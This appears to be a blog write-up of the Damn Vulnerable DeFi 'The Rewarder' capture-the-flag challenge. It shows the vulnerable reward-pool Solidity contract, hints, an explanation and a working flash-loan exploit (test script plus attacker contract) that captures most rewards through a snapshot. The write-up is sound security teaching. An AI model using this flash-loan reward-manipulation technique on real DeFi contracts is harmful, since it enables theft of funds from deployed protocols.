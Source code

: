 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 5: The Rewarder'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our fifth challenge is called 'the rewarder' and it comes with the following prompt:

```
There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?
```

So all we have to do is drain the pool!

The contracts for this challenge are located in contracts/the-rewarder/. Due to the number of contracts, I will only include the source code for our RewarderPool:

<details>
<summary> TheRewarderPool.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./RewardToken.sol";
import "../DamnValuableToken.sol";
import "./AccountingToken.sol";

/**
 * @title TheRewarderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)

 */
contract TheRewarderPool {

    // Minimum duration of each round of rewards in seconds
    uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

    uint256 public lastSnapshotIdForRewards;
    uint256 public lastRecordedSnapshotTimestamp;

    mapping(address => uint256) public lastRewardTimestamps;

    // Token deposited into the pool by users
    DamnValuableToken public immutable liquidityToken;

    // Token used for internal accounting and snapshots
    // Pegged 1:1 with the liquidity token
    AccountingToken public accToken;
    
    // Token in which rewards are issued
    RewardToken public immutable rewardToken;

    // Track number of rounds
    uint256 public roundNumber;

    constructor(address tokenAddress) {
        // Assuming all three tokens have 18 decimals
        liquidityToken = DamnValuableToken(tokenAddress);
        accToken = new AccountingToken();
        rewardToken = new RewardToken();

        _recordSnapshot();
    }

    /**
     * @notice sender must have approved `amountToDeposit` liquidity tokens in advance
     */
    function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        accToken.mint(msg.sender, amountToDeposit);
        distributeRewards();

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }

    function withdraw(uint256 amountToWithdraw) external {
        accToken.burn(msg.sender, amountToWithdraw);
        require(liquidityToken.transfer(msg.sender, amountToWithdraw));
    }

    function distributeRewards() public returns (uint256) {
        uint256 rewards = 0;

        if(isNewRewardsRound()) {
            _recordSnapshot();
        }        
        
        uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;

            if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }

        return rewards;     
    }

    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Another standard flash loan. We have to repay it, but of course we must be able to do something with the borrowed funds before we repay it. Looking at the rewarder pool, what functions can we combine to both modify our rewards and repay our flash loan?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
How are the rewards calculated and distributed?
</div>
</details>


<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The flash loan allows us to create a contract that implements the `receiveFlashLoan(uint256)` function. If we look at the `TheRewarderPool.sol` contract, we can see that the reward tokens are distrubuted using the following formula: `rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;`. This means that rewards are calculated using a ratio of how many tokens you deposit to how many tokens are already deposited. We can see right away that for very large amounts deposited, the factor for the already deposited tokens becomes negligible. Thus, by making a large deposit of DVT tokens, we can take almost all of the rewards in the pool. The path to do so is straightforward, we simply have to wait the 5 days for a new snapshot to be eligible, and then we can take a flash loan and call the `deposit(uint256)` and `withdraw(uint256)` functions to update the snapshot and then transfer the tokens back. Finally, we can simply transfer the reward tokens our contract accrued to the attacker to complete the challenge.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);
        const RewarderAttackerFactory = await ethers.getContractFactory('RewarderPoolDrainer', deployer);
        this.r_attacker = await RewarderAttackerFactory.deploy(this.rewarderPool.address, this.flashLoanPool.address, this.liquidityToken.address);
        await this.r_attacker.attack(TOKENS_IN_LENDER_POOL);
        await this.r_attacker.payAttacker(attacker.address, this.rewardToken.address, ethers.utils.parseEther('100').sub(ethers.utils.parseUnits('1', 17)));
        await this.r_attacker.payAttacker(attacker.address, this.rewardToken.address, 1);
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title RewarderPoolDrainer.sol
 * @author securerodd
 */
 interface IRewarderPool { 
   function deposit(uint256) external payable;
   function withdraw(uint256) external payable;
}

interface IFlashLoaner {
   function flashLoan(uint256) external;
}

interface ILiquidityToken {
    function approve(address, uint256) external;
    function transfer(address, uint256) external;
}

interface IRewardToken {
    function transfer(address, uint256) external;
}

contract RewarderPoolDrainer {
    IRewarderPool public pool;
    IFlashLoaner public lender;
    ILiquidityToken public token;
    constructor(address _poolAddress, address _lenderAddress, address _token) {
        pool = IRewarderPool(_poolAddress);
        lender = IFlashLoaner(_lenderAddress);
        token = ILiquidityToken(_token);
    }

    function receiveFlashLoan(uint256 _amount) external {
        token.approve(address(pool), _amount);
        pool.deposit(_amount);
        pool.withdraw(_amount);
        token.transfer(address(lender), _amount);
    }

    function payAttacker(address _attacker, address _rewardToken, uint256 _amount) external {
        IRewardToken rewardToken = IRewardToken(_rewardToken);
        rewardToken.transfer(_attacker, _amount);
    }

    function attack(uint _amount) external {
        lender.flashLoan(_amount);
    }
}
```
</div>
</details>
